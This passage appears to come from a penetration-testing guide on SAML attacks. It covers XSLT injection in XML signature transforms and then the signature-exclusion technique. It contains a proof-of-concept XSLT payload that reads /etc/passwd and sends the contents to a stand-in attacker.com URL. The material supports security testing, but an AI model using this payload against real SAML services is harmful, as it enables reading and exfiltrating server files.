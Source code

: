 Here you can find a **POC** to check for this kind of vulnerabilities, in the hacktricks page mentioned at the beginning of this section you can find for payloads.

```markup
<ds:Signature xmlns:ds="http://www.w3.org/2000/09/xmldsig#">
  ...
    <ds:Transforms>
      <ds:Transform>
        <xsl:stylesheet xmlns:xsl="http://www.w3.org/1999/XSL/Transform">
          <xsl:template match="doc">
            <xsl:variable name="file" select="unparsed-text('/etc/passwd')"/>
            <xsl:variable name="escaped" select="encode-for-uri($file)"/>
            <xsl:variable name="attackerUrl" select="'http://attacker.com/'"/>
            <xsl:variable name="exploitUrl" select="concat($attackerUrl,$escaped)"/>
            <xsl:value-of select="unparsed-text($exploitUrl)"/>
          </xsl:template>
        </xsl:stylesheet>
      </ds:Transform>
    </ds:Transforms>
  ...
</ds:Signature>
```

### Tool

You can also use the Burp extension [**SAML Raider**](https://portswigger.net/bappstore/c61cfa893bb14db4b01775554f7b802e) to generate the POC from a SAML request to test for possible XSLT vulnerabilities.

## XML Signature Exclusion <a id="xml-signature-exclusion"></a>

Signature Exclusion is used to test how the SAML implementation behaves when there is **no Signature elemen**t. When a Signature element is **absent** the **signature validation step may get skipped entirely**. If the Signature isn’t validated, then any of the contents that would typically be signed may be tampered with by an attacker.

![](../../.gitbook/assets/image%20%28548%29.png)
